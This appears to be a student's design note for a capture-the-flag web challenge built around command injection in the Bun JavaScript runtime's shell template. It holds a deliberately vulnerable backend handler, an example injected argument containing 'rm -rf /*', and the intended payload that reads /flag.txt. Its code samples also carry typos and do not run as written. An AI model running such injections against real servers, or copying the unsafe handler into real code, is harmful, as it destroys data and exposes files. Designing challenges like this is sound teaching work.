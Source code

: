 # Bun Is the Best Javascript runtime!!
### Difficulty: 0.4
### Hosted at ctf.rustalytics.com
# The Idea
The idea is to use the new Javascript runtime [Bun](https://bun.sh/) where they have a way to excecute shell commands trough js which I think is a bad idea from many perspectives

Espesially as it makes it easy to be lazy, for example if you don't know the right way to read a file but you know bash you might just do something like this:

```.js

import { $ } from "bun";

function readfile(file){
  return await await $`cat ${file}`;
}

console.log(redfile(" ./data.txt && rm -rf /* ")) //would break the server

```

In the challange, some lazy shortcut such as this one will be taken and the user will get remote-code excecution where they can find the flag

Therefore it also requires some knowledge in linux.

# The challange

The challange will be a web one where you go to a website where hints will exist in text praising the runtime and that you only need to know Bash and barely Javascript.

The text might look sometging like this

``` 
Bun is the greatest javascript runtime. You don't even need to know javascript anymore.
Imagine using node and writing slow javascript code.
There is not even a database, the linux filesystem is supperior!!!
```

Under the text there will be a todo input with name and content and it will run this code on the backend

```.js
app.post("/craete" async ( req, res ) =>{
  try{
    const {name, content} = data.body
    await await $`touch ${name} && echo ${content} > ${name}`;
    res.send()
  }catch(e){
    res.error(e)
  }
})
```

The solution to this will be this request body:
```json
{"name": "flag","content":"${cat /flag.txt}"}
```
as it will echo the flag.txt into the file with the name
After the user can fetch the todo in the UI as they will all be listed there and see the flag

I will prabably have to add a cookie with uuid so you can only get the files that you uploaded and not go to the website and se someone elses flag

# The difficulty
The difficulty is set to 0.4. This is because we have during our time at Hitachigymnasiet learned about request types and we know how to manipulate them. Most of us have also done a course in linux which will have given us the knowledge to do the cat command and understand how the server would write todos in the filesystem from the hints
